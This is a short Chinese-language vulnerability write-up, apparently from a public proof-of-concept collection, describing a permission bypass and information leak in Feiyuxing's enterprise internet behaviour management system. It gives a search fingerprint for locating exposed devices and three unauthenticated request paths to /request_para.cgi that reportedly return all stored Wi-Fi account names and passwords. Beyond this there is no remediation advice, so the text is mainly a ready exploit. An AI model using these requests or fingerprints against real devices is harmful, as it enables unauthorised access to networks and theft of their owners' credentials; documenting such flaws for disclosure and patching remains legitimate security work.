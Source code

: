 # 飞鱼星 企业级智能上网行为管理系统 权限绕过信息泄露漏洞

## 漏洞描述

飞鱼星 企业级智能上网行为管理系统 存在权限绕过以及信息泄露漏洞，可以获取管理员权限以及用户密码

## 漏洞影响

<a-checkbox checked>飞鱼星 企业级智能上网行为管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="飞鱼星企业级智能上网行为管理系统"</a-checkbox></br>

## 漏洞复现

信息泄露POC

```plain
/request_para.cgi?parameter=wifi_info 		 #获取ALL WIFI账号密码
/request_para.cgi?parameter=wifi_get_5g_host #获取5GWIFI账号密码
/request_para.cgi?parameter=wifi_get_2g_host #获取2GWIFI账号密码
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/fy-4.png)